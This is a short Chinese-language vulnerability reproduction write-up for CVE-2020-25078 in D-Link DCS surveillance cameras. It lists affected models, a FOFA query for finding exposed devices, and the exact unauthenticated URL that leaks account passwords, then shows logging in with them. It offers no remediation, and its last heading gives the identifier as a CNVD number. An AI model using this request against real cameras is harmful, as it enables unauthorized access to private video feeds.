 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面



## 漏洞影响

> [!NOTE]
>
> DCS-2530L
> DCS-2670L
> DCS-4603
> DCS-4622
> DCS-4701E
> DCS-4703E
> DCS-4705E
> DCS-4802E
> DCS-P703

## FOFA

> [!NOTE]
>
> app="D_Link-DCS-2530L"

## 漏洞复现

访问登录页面如下

![](image/link-9.png)

出现漏洞的 Url 为, 其中泄露了账号密码

```
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```

![](image/link-10.png)

使用泄露的账号密码登陆系统

![](image/link-11.png)

## Goby & POC

> D-Link DCS系列监控 账号密码信息泄露漏洞 CNVD-2020-25078

![](image/link-12.png)